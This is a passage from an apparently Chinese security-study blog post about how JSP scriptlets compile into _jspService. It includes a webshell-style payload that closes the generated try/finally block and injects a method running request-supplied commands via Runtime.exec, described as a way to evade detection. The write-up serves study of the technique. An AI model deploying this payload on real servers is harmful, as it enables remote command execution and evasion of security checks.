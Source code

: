 ```java
}

```

`<%%>`块的内容被放到`_jspService`的try块中

比如：

```java
<% Runtime.getRuntime().exec("calc"); %>
```

大致生成的 Java 代码如下：

```java
out.write("<html><body>");
Runtime.getRuntime().exec("calc");
out.write("</body></html>");
```

因此，如果你能构造一段 JSP 片段，在拼接过程中**闭合已有结构（如 try/catch、if、方法体等）并注入新的代码块**，就可以在不破坏原有结构的前提下，完成代码注入。

```java
<%
hack(request.getParameter("cmd"));}catch(Throwable ignored){}
finally {
      _jspxFactory.releasePageContext(_jspx_page_context);
    }}
public void hack(String cmd)throws Exception{
    java.lang.Runtime.getRuntime().exec(cmd);
%>
```

这里前面闭合掉 JSP 的包装结构，中间插入完整的 Java 方法，再由 JSP 引擎拼接生成 `.java` 时被原样拼进源码，从而执行。

虽然适用面很窄，但是能利用这种姿势绕过对_jspService内敏感函数的检测。



## other

具体的代码分析：https://su18.org/post/Desperate-Cat/

你可以永远相信su18大佬

此处不再调试，看su18佬的文章，不能想着跟着去调，复调一遍没有任何意义，因为文章已经讲的非常细致。应该是总结，总结文章到底想介绍针对什么场景，又介绍了什么样的攻击手法

我觉得安全学习就是这么矛盾，分析很详细的文章，就想着去总结，分析很简略的文章，就想着去细调。但正是这种矛盾，让我们找到自己的目标。
